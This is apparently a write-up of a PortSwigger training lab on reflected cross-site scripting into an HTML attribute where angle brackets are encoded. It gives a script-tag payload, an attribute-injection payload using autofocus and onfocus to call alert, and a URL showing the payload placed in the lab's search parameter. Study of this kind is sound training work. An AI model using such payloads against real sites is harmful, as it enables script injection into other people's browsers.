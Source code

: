 # Reflected XSS into attribute with angle brackets HTML-encoded

## This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the `alert` function.

when

```javascript
"><script>alert(document.domain)</script>
```

not work then use

```javascript
" autofocus onfocus=alert(document.domain) x=";
```

The above payload creates an `onfocus` event that will execute JavaScript when the element receives the focus, and also adds the `autofocus` attribute to try to trigger the `onfocus` event automatically without any user interaction. Finally, it adds `x="` to gracefully repair the following markup

### step1

go to lab serach someting
eg test
`https://0acc00f30408c142c0c70891009600dd.web-security-academy.net/?search=test`

replace test with payload
`https://0acc00f30408c142c0c70891009600dd.web-security-academy.net/?search=" autofocus onfocus=alert(document.domain) x="`
